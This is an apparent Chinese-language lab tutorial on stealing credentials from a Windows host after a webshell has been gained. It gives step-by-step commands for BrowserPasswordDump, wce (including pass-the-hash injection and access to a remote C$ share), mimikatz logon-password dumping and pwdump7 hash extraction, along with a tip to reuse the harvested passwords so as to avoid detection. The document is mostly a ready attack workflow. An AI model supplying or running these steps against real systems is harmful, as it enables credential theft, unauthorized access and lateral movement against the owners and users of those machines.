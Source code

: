 # BrowserPasswordDump.exe的使用

1. 在获取到webshell的前提下，将BrowserPasswordDump.exe上传到目标靶机中

   

2. 上传成功后执行BrowserPasswordDump.exe

   ![image-20210625224714022](https://raw.githubusercontent.com/lixbao/PicGo/main/img/20210712232608.png)

3. 以上便成功获取了通过浏览器记住的密码，再通过命令获取服务器的用户名，然后根据此可以猜测服务器的某些用户的密码为ndsec123，从而减少被发现的几率

   ![image-20210625224912919](https://raw.githubusercontent.com/lixbao/PicGo/main/img/20210712232704.png)

# Wce.exe的使用

1. 同样在已经获取到shell的情况下，上传wce.exe程序

   ![image-20210626000435411](https://raw.githubusercontent.com/lixbao/PicGo/main/img/20210712232714.png)

2. 执行语句：wce.exe -l

   ![image-20210626000711135](https://raw.githubusercontent.com/lixbao/PicGo/main/img/20210712232719.png)

   -l               列出登录的会话和NTLM凭据（默认值）
   -s               修改当前登录会话的NTLM凭据 参数：<用户名>:<域名>:<LM哈希>:<NT哈希>
   -r               不定期的列出登录的会话和NTLM凭据，如果找到新的会话，那么每5秒重新列出一次
   -c               用一个特殊的NTML凭据运行一个新的会话 参数：<cmd>
   -e               不定期的列出登录的会话和NTLM凭据，当产生一个登录事件的时候重新列出一次
   -o               保存所有的输出到一个文件 参数:<文件名>
   -i                指定一个LUID代替使用当前登录会话 参数:<luid>
   -d               从登录会话中删除NTLM凭据 参数:<luid>
   -a               使用地址 参数: <地址>
   -f                强制使用安全模式
   -g               生成LM和NT的哈希 参数<密码>
   -K               缓存kerberos票据到一个文件（unix和windows wce格式）
   -k               从一个文件中读取kerberos票据并插入到windows缓存中
   -w              通过摘要式认证缓存一个明文的密码
   -v               详细输出

3. 然后在攻击主机执行语句{wce.exe -s 对方hash值}，将对方的hash值注入到攻击机本地

   > wce.exe -s 用户名:对方机器名或者ip:LM-HASH:NT-HASH

   ![image-20210626003924364](https://raw.githubusercontent.com/lixbao/PicGo/main/img/20210712232725.png)

4. 通过对方的hash值可以访问对方文件

   >dir \\NDSEC-D362CF050\c$

   ![image-20210626004616672](https://raw.githubusercontent.com/lixbao/PicGo/main/img/20210712232729.png)

# Mimikatz的使用

1. 在拿到shell的情况下上传Minikatz.exe

   ![image-20210626220044415](https://raw.githubusercontent.com/lixbao/PicGo/main/img/20210712232733.png)

2. 执行语句

   > `mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords"" exit >>1.txt`
   >
   > privilege::debug	提升权限
   >
   > sekurlsa::logonpasswords	抓取密码

   ![image-20210626220835292](https://raw.githubusercontent.com/lixbao/PicGo/main/img/20210712232741.png)

3. 然后将获取到的hash值和明文密码文件1.txt下载至本地即可查看

   ![image-20210627215847842](https://raw.githubusercontent.com/lixbao/PicGo/main/img/20210712232745.png)

# pwdump7.exe的使用

1. 在获取到webshell的情况下将pwdump7.exe相关组件上传到靶机

   ![image-20210626231309435](https://raw.githubusercontent.com/lixbao/PicGo/main/img/20210712232749.png)

2. 上传成功后编写批处理文件，执行后即可产生密码文件

   > Pwdump7.exe >pass.txt
   
   ![image-20210627220948615](https://raw.githubusercontent.com/lixbao/PicGo/main/img/20210712232753.png)

3. 然后去https://www.objectif-securite.ch/ophcrack破解即可

   


